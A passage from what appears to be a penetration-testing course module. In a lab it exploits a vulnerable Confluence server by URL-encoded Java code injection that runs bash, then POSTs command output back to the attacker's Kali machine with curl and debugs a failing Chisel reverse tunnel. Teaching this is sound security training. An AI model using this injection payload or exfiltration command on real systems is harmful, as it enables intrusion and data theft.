 To read the command output, we can construct a command which redirects stdout and stderr output to a file, and then send the contents of that file over HTTP back to our Kali machine. We use the **&>** operator, which directs all streams to stdout, and write it to **/tmp/output**. We then run **curl** with the **\--data** flag, telling it to read the file at **/tmp/output**, and POST it back to our Kali machine on port 8080.

```
/tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/
```

> Listing 10 - The error-collecting-and-sending command string.

We can then create an injection payload using this command string, and send it to the vulnerable Confluence instance.

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://192.168.118.4:8080/%27%29.start%28%29%22%29%7D/
kali@kali:~$
```

> Listing 11 - The error-collecting-and-sending injection payload.

On sending this new injection, we check Tcpdump output for attempted connections.

```
...
16:30:50.915895 IP (tos 0x0, ttl 61, id 47823, offset 0, flags [DF], proto TCP (6), length 410)
    192.168.50.63.50192 > 192.168.118.4.8080: Flags [P.], cksum 0x1535 (correct), seq 1:359, ack 1, win 502, options [nop,nop,TS val 391724691 ecr 3105669986], length 358: HTTP, length: 358
        POST / HTTP/1.1
        Host: 192.168.118.4:8080
        User-Agent: curl/7.68.0
        Accept: */*
        Content-Length: 204
        Content-Type: application/x-www-form-urlencoded

        /tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by /tmp/chisel)/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by /tmp/chisel) [|http]
        0x0000:  4500 019a bacf 4000 3d06 f729 c0a8 db3f  E.....@.=..)...?
        0x0010:  c0a8 2dd4 c410 1f90 d15e 1b1b 2b88 002d  ..-......^..+..-
...
```

> Listing 12 - The output from the failing Chisel command.

We get the output that running **/tmp/chisel** produces. Chisel is trying to use versions 2.32 and 2.34 of [**glibc**](https://www.gnu.org/software/libc/), which the CONFLUENCE01 server does not have.

This module was written in 2023, using Chisel version _1.8.1-0kali2 (go1.20.7)_. The Kali repos will likely contain later versions of Chisel in the future, and the exact error message that comes back from these later versions of Chisel may be different. However, the same principle applies. We have encountered an error trying to run a payload on a target system. As such, we must find an alternative payload which will run. Finding a way around these kinds of setbacks is an important skill which can be applied to many other situations where tool incompatibilities arise.
